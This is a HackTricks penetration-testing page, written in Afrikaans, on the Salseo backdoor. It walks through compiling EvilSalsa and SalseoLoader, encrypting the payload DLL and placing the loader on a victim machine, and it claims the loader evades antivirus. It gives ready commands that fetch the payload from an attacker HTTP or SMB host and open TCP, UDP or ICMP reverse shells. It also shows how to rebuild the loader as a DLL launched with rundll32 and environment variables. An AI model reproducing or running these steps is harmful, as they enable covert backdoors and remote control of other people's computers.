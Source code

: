 # Salseo

{% hint style="success" %}
Leer & oefen AWS-hacking: <img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Opleiding AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Leer & oefen GCP-hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Opleiding GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Controleer die [**inskrywingsplanne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacktruuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-opslag.

</details>
{% endhint %}

## Kompilering van die bineêre lêers

Laai die bronkode van die github af en kompileer **EvilSalsa** en **SalseoLoader**. Jy sal **Visual Studio** geïnstalleer moet hê om die kode te kompileer.

Kompileer daardie projekte vir die argitektuur van die Windows-boks waar jy hulle gaan gebruik (As die Windows x64 ondersteun, kompileer hulle vir daardie argitekture).

Jy kan die argitektuur **kies** binne Visual Studio in die **linker "Bou" Tab** in **"Platform Teiken".**

(\*\*As jy nie hierdie opsies kan vind nie, druk in **"Projek Tab"** en dan in **"\<Projek Naam> Eienskappe"**)

![](<../.gitbook/assets/image (132).png>)

Bou dan beide projekte (Bou -> Bou Oplossing) (Binne die logs sal die pad van die uitvoerbare lêer verskyn):

![](<../.gitbook/assets/image (1) (2) (1) (1) (1).png>)

## Berei die Agterdeur voor

Eerstens, sal jy die **EvilSalsa.dll** moet kodeer. Om dit te doen, kan jy die python-skrip **encrypterassembly.py** gebruik of jy kan die projek **EncrypterAssembly** kompileer:

### **Python**
```
python EncrypterAssembly/encrypterassembly.py <FILE> <PASSWORD> <OUTPUT_FILE>
python EncrypterAssembly/encrypterassembly.py EvilSalsax.dll password evilsalsa.dll.txt
```
### Windows
```
EncrypterAssembly.exe <FILE> <PASSWORD> <OUTPUT_FILE>
EncrypterAssembly.exe EvilSalsax.dll password evilsalsa.dll.txt
```
Ok, nou het jy alles wat jy nodig het om al die Salseo ding uit te voer: die **geënkripteerde EvilDalsa.dll** en die **binêre van SalseoLoader.**

**Laai die SalseoLoader.exe binêre na die masjien op. Dit behoort nie deur enige AV opgespoor te word nie...**

## **Voer die agterdeur uit**

### **Kry 'n TCP-omgekeerde dop (laai geënkripteerde dll af deur HTTP)**

Onthou om 'n nc as die omgekeerde dop luisteraar te begin en 'n HTTP-bediener om die geënkripteerde evilsalsa te dien.
```
SalseoLoader.exe password http://<Attacker-IP>/evilsalsa.dll.txt reversetcp <Attacker-IP> <Port>
```
### **Kry 'n UDP-omgekeerde dop (afgelaaide gekodeerde dll deur SMB)**

Onthou om 'n nc te begin as die omgekeerde dop luisteraar, en 'n SMB-bediener om die gekodeerde evilsalsa te dien (impacket-smbserver).
```
SalseoLoader.exe password \\<Attacker-IP>/folder/evilsalsa.dll.txt reverseudp <Attacker-IP> <Port>
```
### **Kry 'n ICMP omgekeerde dop (geënkripteerde dll reeds binne die slagoffer)**

**Hierdie keer het jy 'n spesiale instrument in die klient nodig om die omgekeerde dop te ontvang. Laai af:** [**https://github.com/inquisb/icmpsh**](https://github.com/inquisb/icmpsh)

#### **Deaktiveer ICMP Antwoorde:**
```
sysctl -w net.ipv4.icmp_echo_ignore_all=1

#You finish, you can enable it again running:
sysctl -w net.ipv4.icmp_echo_ignore_all=0
```
#### Voer die klient uit:
```
python icmpsh_m.py "<Attacker-IP>" "<Victm-IP>"
```
#### Binne die slagoffer, laat ons die salseo ding uitvoer:
```
SalseoLoader.exe password C:/Path/to/evilsalsa.dll.txt reverseicmp <Attacker-IP>
```
## Kompilering van SalseoLoader as DLL wat die hooffunksie uitvoer

Maak die SalseoLoader projek oop met behulp van Visual Studio.

### Voeg voor die hooffunksie by: \[DllExport]

![](<../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)

### Installeer DllExport vir hierdie projek

#### **Gereedskap** --> **NuGet Pakketbestuurder** --> **Bestuur NuGet-pakkette vir Oplossing...**

![](<../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)

#### **Soek na DllExport-pakket (deur die Blaai-tabblad te gebruik), en druk op Installeer (en aanvaar die popup)**

![](<../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)

In jou projekmap het die lêers verskyn: **DllExport.bat** en **DllExport\_Configure.bat**

### **D**eïnstalleer DllExport

Druk **Deïnstalleer** (ja, dit is vreemd, maar vertrou my, dit is nodig)

![](<../.gitbook/assets/image (5) (1) (1) (2) (1).png>)

### **Sluit Visual Studio af en voer DllExport\_configure uit**

Net **sluit** Visual Studio af

Gaan dan na jou **SalseoLoader map** en **voer DllExport\_Configure.bat uit**

Kies **x64** (as jy dit binne 'n x64-boks gaan gebruik, dit was my geval), kies **System.Runtime.InteropServices** (binne **Namespace vir DllExport**) en druk **Toepas**

![](<../.gitbook/assets/image (7) (1) (1) (1) (1).png>)

### **Maak die projek weer oop met Visual Studio**

**\[DllExport]** behoort nie meer as fout gemerk te wees nie

![](<../.gitbook/assets/image (8) (1).png>)

### Bou die oplossing

Kies **Uitvoertipe = Klasbiblioteek** (Projek --> SalseoLoader Eienskappe --> Toepassing --> Uitvoertipe = Klasbiblioteek)

![](<../.gitbook/assets/image (10) (1).png>)

Kies **x64** **platform** (Projek --> SalseoLoader Eienskappe --> Bou --> Platform teiken = x64)

![](<../.gitbook/assets/image (9) (1) (1).png>)

Om die oplossing te **bou**: Bou --> Bou Oplossing (Binne die Uitvoerkonsole sal die pad van die nuwe DLL verskyn)

### Toets die gegenereerde Dll

Kopieer en plak die Dll waar jy dit wil toets.

Voer uit:
```
rundll32.exe SalseoLoader.dll,main
```
Indien geen fout verskyn nie, het jy waarskynlik 'n funksionele DLL!!

## Kry 'n skaal deur die DLL te gebruik

Moenie vergeet om 'n **HTTP** **bediener** te gebruik en 'n **nc** **luisteraar** in te stel

### Powershell
```
$env:pass="password"
$env:payload="http://10.2.0.5/evilsalsax64.dll.txt"
$env:lhost="10.2.0.5"
$env:lport="1337"
$env:shell="reversetcp"
rundll32.exe SalseoLoader.dll,main
```
### CMD
```
set pass=password
set payload=http://10.2.0.5/evilsalsax64.dll.txt
set lhost=10.2.0.5
set lport=1337
set shell=reversetcp
rundll32.exe SalseoLoader.dll,main
```
{% hint style="success" %}
Leer & oefen AWS-hacking: <img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Opleiding AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Leer & oefen GCP-hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Opleiding GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kontroleer die [**inskrywingsplanne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking-truuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-opslag.

</details>
{% endhint %}
